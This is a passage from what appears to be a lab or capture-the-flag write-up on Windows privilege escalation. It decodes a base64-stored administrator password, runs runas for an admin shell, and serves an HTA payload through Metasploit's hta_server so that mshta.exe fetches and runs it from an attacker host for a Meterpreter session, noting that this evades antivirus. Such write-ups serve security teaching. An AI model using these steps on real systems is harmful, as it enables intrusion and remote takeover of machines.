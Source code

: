 ```
$password='QWRtaW5AMTIz'
$password=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($pa
ssword))
echo $password
```

Breaking down..... 

```
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($pa
ssword))
```

1. `[System.Convert]::FromBase64String(<base64_password>)`: The base64 string is a textual representation of binary data. To retrieve the original password, we first need to decode it into its binary form.  The `System.Convert` .NET class provides methods for data type conversions, and here we use its `FromBase64String` method to convert the base64 string into a byte array, which represents the raw binary data. Since the byte array is not really human-readable, it must be further processed.

2. `[System.Text.Encoding]::UTF8.GetString(<binary_btye_array>)`: To convert the binary data into a readable format, we use the `System.Text.Encoding` .NET class, which handles character encoding and decoding. Specifically, the `UTF8.GetString` method translates the byte array into a UTF-8 encoded string. UTF-8 is a widely used character encoding standard in PowerShell which ensures the decoded string is properly interpreted as human-readable.  We can run a command prompt instance as an administrator user using the discovered credentials.

```
runas.exe /user:administrator cmd
```

 We can now pretty much do whatever we want to leverage the administrative credentials to escalate privileges and gain an elevated Meterpreter session.  One option we can try is a hosted hta file to gain a meterpreter session.

##### mshta.exe and an HTA Payload to Gain a Meterpreter Session

Microsoft's HTML Application host aka `mshta.exe` is a Microsoft binary designed to execute HTML-based applications (HTA files).  HTA files can run embedded code hidden within the file, like powershell, which executes when the application runs. We can use `mshta.exe` with an HTA file to gain a Meterpreter session since 1.) `mshta.exe` is a legit component of the Windows which could evade detection by antivirus solutions making it a Living off the Land/LOLBin tactic and 2.) `mshta.exe` bypasses PowerShell's execution policy restrictions that block untrusted scripts allowing the embedded PowerShell commands from the HTA file to run.

We can use the hta_server module in Metasploit (`exploit/windows/misc/hta_server`) to host and serve a HTA file which would allows the payload to be delivered over the network.

```
use exploit/windows/misc/hta_server
set SRVHOST <attack_ip>
exploit
```

Once the exploit is started, it will generate a host HTA link (e.g., `http://10.10.31.2:8080/Bn75U0NL8ONS.hta`) that a target only needs to visit once which would execute the embedded powershell commands of the HTA payload and establish a meterpreter session. We can achieve privilege escalation by running mshta.exe through the elevated command prompt.
